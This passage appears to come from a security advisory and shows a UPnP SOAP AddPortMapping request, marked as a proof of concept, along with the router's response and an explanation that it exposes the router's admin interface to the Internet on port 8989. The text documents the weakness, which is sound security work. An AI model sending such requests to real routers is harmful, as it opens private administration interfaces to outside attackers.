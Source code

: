 Content-Type: text/xml; charset="utf-8"

Content-Length: 714

​

<?xml version="1.0"?>

<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">

   <s:Body>

      <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">

         <NewRemoteHost></NewRemoteHost>

         <NewExternalPort>8989</NewExternalPort>

         <NewProtocol>TCP</NewProtocol>

         <NewInternalPort>80</NewInternalPort>

         <NewInternalClient>192.168.1.1</NewInternalClient>

         <NewEnabled>1</NewEnabled>

         <NewPortMappingDescription>UPnP port mapping PoC</NewPortMappingDescription>

         <NewLeaseDuration>0</NewLeaseDuration>

      </u:AddPortMapping>

   </s:Body>

</s:Envelope>

Response:

HTTP/1.1 200 OK

Content-Type: text/xml; charset="utf-8"

Connection: close

Content-Length: 298

​

<?xml version="1.0"?>

<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body>    <u:AddPortMappingResponse xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">

    </u:AddPortMappingResponse>

</s:Body></s:Envelope>

The previous SOAP POST request, according to the **AddPortMapping** action specification, exposes the administration web interface running on **192.168.1.1:80** externally on port **8989**, making then it accessible from Internet (if the **NewRemoteHost** is empty, its value is **0.0.0.0** by default).
